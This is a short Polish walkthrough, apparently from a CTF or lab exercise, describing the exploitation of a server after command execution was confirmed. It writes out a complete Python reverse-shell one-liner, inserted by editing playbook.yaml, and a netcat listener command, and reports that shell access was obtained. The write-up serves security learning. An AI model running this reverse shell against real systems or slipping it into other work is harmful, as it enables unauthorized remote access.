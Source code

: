 ![Stdout](img/Stdout.JPG)

Widzimy, że komenda "id" wykonała się na serwerze.


## Eksploitacja

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell, edytując plik playbook.yaml za pomocą komendy:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Następnie nasłuchujemy połączeń za pomocą narzędzia netcat:

```
nc -lvnp [Port]
```
Zyskaliśmy dostęp do serwera:

![RevShell](img/RevShell.JPG)

